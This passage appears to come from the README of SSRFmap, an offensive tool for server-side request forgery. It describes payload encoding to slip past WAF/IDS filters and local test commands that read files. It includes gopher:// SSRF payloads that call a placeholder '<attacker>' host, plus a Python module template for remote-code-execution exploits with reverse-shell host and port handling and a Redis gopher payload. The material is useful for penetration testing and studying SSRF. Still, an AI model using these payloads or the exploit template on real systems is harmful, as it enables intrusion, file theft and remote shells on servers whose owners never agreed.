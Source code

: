 When the target is protected by a WAF or some filters you can try a wide range of payloads and encoding with the parameter `--level`.

```sh
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```



#### SSRFmap Tests

A quick way to test the framework can be done with `data/example.py` SSRF service.

```sh
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```



#### Contribute

I ❤️ pull requests :) Feel free to add any feature listed below or a new service.

- Redis PHP Exploitation
- HTTP module (Jenkins ?)

```
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```



#### 定制功能模块

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)
```